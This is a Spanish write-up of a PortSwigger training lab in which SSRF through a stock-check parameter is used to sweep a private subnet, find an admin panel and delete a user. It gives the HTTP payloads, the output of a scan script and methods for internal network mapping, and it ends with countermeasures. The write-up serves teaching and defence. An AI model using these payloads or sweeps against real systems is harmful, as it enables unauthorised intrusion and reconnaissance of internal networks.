

# Writeup: Basic SSRF against another back-end system (PortSwigger)

- **Lab**: Basic SSRF against another back-end system
- **URL**: https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system
- **Categoría**: SSRF clásico contra red interna (lateral discovery via fuzzing del target)
- **Dificultad**: Apprentice
- **Credenciales**: no requiere login

---

## 1. Objetivo

Misma tienda y mismo `stockApi` que el lab anterior, pero el panel admin no vive en `localhost` sino en otro host de la subred interna del servidor: en algún lugar de `192.168.0.0/24`, puerto 8080, path `/admin`. La IP exacta del back-end es desconocida y hay que descubrirla por fuerza bruta, después borrar a `carlos`.

### El insight nuevo respecto al lab #1

En el lab anterior la confianza implícita era "loopback ⇒ caller local ⇒ confiable". Acá la confianza implícita es más amplia: **todo el rango privado de la VPC se trata como zona segura**. El back-end admin no está en `127.0.0.1`, está en otro host, pero igualmente expuesto sin auth porque "está dentro de la red privada".

SSRF rompe esa frontera tan fácil como la rompe contra loopback: el atacante hace que el server pivote a la red interna. Y ahora la SSRF se vuelve además **herramienta de descubrimiento**: con un loop sobre el último octeto se pueden mapear hosts vivos, puertos abiertos y servicios sin tocar la red interna directamente.

---

## 2. Reconocimiento

Capturar el "Check stock" igual que en el lab #1:

```http
POST /product/stock HTTP/2
Host: 0a2c0032037d508e803d4992003b00c4.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Cookie: session=ocYuG9NoQX5AmhhMTAO3IKL5n77SZc7Z

stockApi=http%3A%2F%2Fstock.weliveshecurity.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

`stockApi` sigue aceptando URL arbitraria. La clave es que ahora el path final del lab no es `localhost/admin` sino algún `192.168.0.X:8080/admin` con `X ∈ [1, 255]`.

---

## 3. Resolución

### 3.1 Por qué Burp Intruder solo no escala

Burp Community Edition aplica throttling severo en Intruder (~1 req/s, sin paralelismo real). 255 requests = ~5 minutos en el mejor caso, en la práctica más. Para una sweep simple sin lógica de retry no compensa pelearse con Intruder. Un script con concurrencia limitada termina en segundos.

### 3.2 Script de scan (concurrente, stdlib + requests)

`scan.py` en este mismo directorio. Uso:

```bash
python3 scan.py <lab-host> <session-cookie>
```

Lo que hace en ~10-20s con 30 workers:

1. Para cada `octet ∈ [1, 255]`, manda `POST /product/stock` con `stockApi=http://192.168.0.<octet>:8080/admin` (URL-encodeado).
2. Registra `(status_code, content_length)` por respuesta.
3. Imprime distribución global y lista los **outliers** (respuestas que no coinciden con el modo).

Salida del run que resolvió este lab:

```
[*] status distribution: {400: 1, 500: 253, 200: 1}
[*] length distribution top 5: [(2454, 253), (19, 1), (3245, 1)]

[*] outliers (status/length distintos al modo):
  192.168.0.1    status=400  len=19
  192.168.0.246  status=200  len=3245
```

Lectura de la salida:

- **253/255 IPs devolvieron 500 con cuerpo idéntico** (length 2454). El back-end de stock intentó conectarse al `:8080`, recibió `connection refused` y devolvió un error genérico. Ese 500 es la "señal de host vacío".
- **`.1` devolvió 400 con 19 bytes**. Outlier por ruido, no por target. El gateway o algún equipo de red devolvió un error distinto. Es importante: **outlier ≠ objetivo automáticamente**. Hay que mirar el cuerpo o el status para decidir.
- **`.246` devolvió 200 con 3245 bytes**. Cuerpo grande con HTML del panel admin reflejado. Ese es el target.

### 3.3 Disparar el delete

Mismo patrón que el lab #1, con la IP descubierta:

```http
POST /product/stock HTTP/2
Host: 0a2c0032037d508e803d4992003b00c4.web-security-academy.net
Cookie: session=ocYuG9NoQX5AmhhMTAO3IKL5n77SZc7Z
Content-Type: application/x-www-form-urlencoded

stockApi=http%3A%2F%2F192.168.0.246%3A8080%2Fadmin%2Fdelete%3Fusername%3Dcarlos
```

Respuesta:

```
HTTP/2 302 Found
Location: http://192.168.0.246:8080/admin
```

Lab Solved.

---

## 4. Por qué funciona

### 4.1 La señal: distribución bimodal de respuestas

La técnica funciona porque hay diferencia clara entre:

- **Host inexistente o puerto cerrado**: el sistema operativo del back-end de stock devuelve `ECONNREFUSED` rápido. La aplicación atrapa el error y devuelve 500 con un mensaje genérico, idéntico para todas las IPs muertas.
- **Host vivo con servicio**: la conexión TCP completa, llega un response HTTP del servicio interno, y la aplicación lo embebe o reenvía en el response. El status y el length son distintos al "error genérico".

Esto convierte la SSRF en un **port/host scanner indirecto**. Las dos heurísticas para identificar un hit son:

- **Status code distinto al modo**: si todo el resto da 500 y uno da 200, ese es el candidato.
- **Content length distinto al modo**: si todo el resto pesa 2454 bytes (mismo error) y uno pesa 3245, ese es el candidato.

En sweeps reales también sirve **timing**: hosts vivos a veces tardan más (real handshake + response), hosts muertos terminan rápido por refused. Cuando la app no diferencia status/body por destino (dummy 200 siempre), el timing puede ser la única señal.

### 4.2 Diferencia operativa con el lab #1

| Aspecto | Lab #1 (loopback) | Este lab (back-end) |
|---|---|---|
| Target conocido a priori | sí (`localhost/admin`) | no, hay que descubrir IP |
| Cantidad de requests | 2 (browse admin + delete carlos) | ~256 (255 sweep + 1 delete) |
| Herramienta natural | Repeater (un payload) | Intruder o script (loop) |
| Confianza rota | "127.0.0.1 ⇒ confiable" | "VPC interna ⇒ confiable" |
| Realismo | menos común en arquitecturas modernas | muy común en microservicios |

El lab #2 simula un entorno realista: microservicios distribuidos en una subred privada, donde el descubrimiento de servicios es por DNS interno o IP fija. Si la app pública acepta una URL del cliente para hablar a uno de esos microservicios, **toda la subred es alcanzable a través de SSRF**. PostgreSQL en `:5432`, Elasticsearch en `:9200`, Redis en `:6379`, paneles admin en `:8080`, todo lo que escuche en la VPC es target.

### 4.3 SSRF como herramienta de mapeo de red

Tres patrones de descubrimiento que esto habilita:

1. **Sweep horizontal**: variar el último octeto para encontrar hosts vivos en una subred conocida (lo que hicimos acá).
2. **Sweep vertical de puertos**: fijar un host conocido (gateway, IP del servidor mismo) y variar el puerto para mapear servicios. `:22, :25, :80, :443, :3306, :5432, :6379, :8080, :9200, ...`.
3. **Reconocimiento de rangos**: probar `10.0.0.0/8`, `172.16.0.0/12`, `192.168.0.0/16`, `169.254.0.0/16` para inferir la topología cuando no se conoce el rango.

La superficie de ataque post-SSRF es la unión de todos los servicios de la red interna que escuchen en cualquier IP/puerto, no solo el primer servicio descubierto.

### 4.4 Por qué `.1` fue ruido y no target

`192.168.0.1` típicamente es la IP del gateway/router de la subred. Los gateways suelen responder en algún puerto (management, gateway HTTP, redirect a captive portal) con un cuerpo distinto al "puerto cerrado" que devuelven los hosts inexistentes. En el output ese host devolvió `400 / 19 bytes`: probablemente un "Bad request" del gateway al intentar handshake HTTP en un puerto que no es HTTP. Ruido honesto, no señal del lab.

Lección operacional: **la heurística "outlier ⇒ target" es probabilística, no garantía**. Cuando hay múltiples outliers, hay que mirar el cuerpo (¿parece HTML del panel?, ¿devuelve un banner?, ¿da redirect?) para distinguir el target real del ruido de infraestructura.

---

## 5. Resumen de la cadena



Tres ideas para llevarse:

1. **SSRF es port scanner cuando los responses son distinguibles**. Status code, content length y timing son las tres señales canónicas. Si la app devuelve siempre el mismo body y mismo status, hay que buscar timing diferential. Si nada de eso varía, es blind SSRF y necesita técnicas distintas (OOB callbacks).
2. **Toda la VPC se vuelve atacable cuando hay SSRF en el perímetro**. La defensa "este servicio sólo escucha en red interna" deja de ser defensa. Cada servicio interno necesita auth propia, o egress filtering desde el componente público hacia el resto de la VPC.
3. **Outliers en sweeps tienen ruido**. Gateways, balancers, IPs reservadas devuelven cosas raras. Hay que validar el outlier (mirar el body, no sólo el status) antes de asumir que es el target.

---

## 6. Contramedidas

Defensas en orden de robustez (con énfasis en lo que cambia respecto al lab #1):

1. **No aceptar URLs del cliente para llamadas server-side**. Misma fix raíz que el lab #1: si el frontend dice "consultá stock", el backend no necesita que el cliente le diga la URL. Mover la URL a configuración server-side mata la clase entera.
2. **Allowlist de hosts permitidos** post-resolución DNS. Validar el host *después* de resolver para evitar trucos como `stock.attacker.com → 192.168.0.246` o DNS rebinding.
3. **Egress filtering desde el componente público a la VPC**. Si la app pública sólo necesita hablar con `stock-service.internal` y nada más, bloquear (a nivel de iptables/security group/network policy) el acceso a cualquier otra IP de la VPC. Esto es la diferencia clave con el lab #1: ahí "no hablar con loopback" alcanzaba; acá hace falta "no hablar con la VPC".
4. **Auth obligatoria en *todos* los servicios internos**, incluyendo paneles admin. La asunción "está en la red privada ⇒ confiable" es incompatible con SSRF. Cada servicio verifica identidad, sin importar el origen aparente del request.
5. **Service mesh con mTLS** en arquitecturas microservicios. Cada call entre servicios firma con su identidad de servicio. Un request iniciado por SSRF no tiene cert válido del servicio público autorizado, falla en mTLS antes de llegar al endpoint sensible.
6. **Detección de comportamiento anómalo**: si el componente público normalmente abre conexiones sólo a `stock-service.internal:8080` y de repente está mandando paquetes a 250 IPs distintas en un minuto, es alerta clara de SSRF activa. Egress logs + alerta en cardinalidad de destinos.

---

## 7. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Basic SSRF against another back-end system*. https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system
- PortSwigger Web Security Academy. (s.f.). *Server-side request forgery (SSRF)*. https://portswigger.net/web-security/ssrf
- OWASP Foundation. (s.f.). *Server Side Request Forgery Prevention Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html
- MITRE Corporation. (2024). *CWE-918: Server-Side Request Forgery (SSRF)*. https://cwe.mitre.org/data/definitions/918.html
- MITRE Corporation. (2024). *ATT&CK Technique T1190: Exploit Public-Facing Application*. https://attack.mitre.org/techniques/T1190/
- Stuttard, D., & Pinto, M. (2011). *The Web Application Hacker's Handbook: Finding and Exploiting Security Flaws* (2nd ed.). Wiley. Cap. 17 (Attacking Application Architecture).
- Writeup hermano (loopback): [`learning/portswigger/basic-ssrf-against-localhost/writeup.md`](../basic-ssrf-against-localhost/writeup.md)
- Writeup hermano (XXE→IMDS): [`learning/portswigger/exploiting-xxe-to-perform-ssrf/writeup.md`](../exploiting-xxe-to-perform-ssrf/writeup.md)
- Inventario interno: [`inventario/03-analisis-vulnerabilidades/web/analisis-ssrf.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-ssrf.md)
- Script: [`scan.py`](scan.py) en este directorio
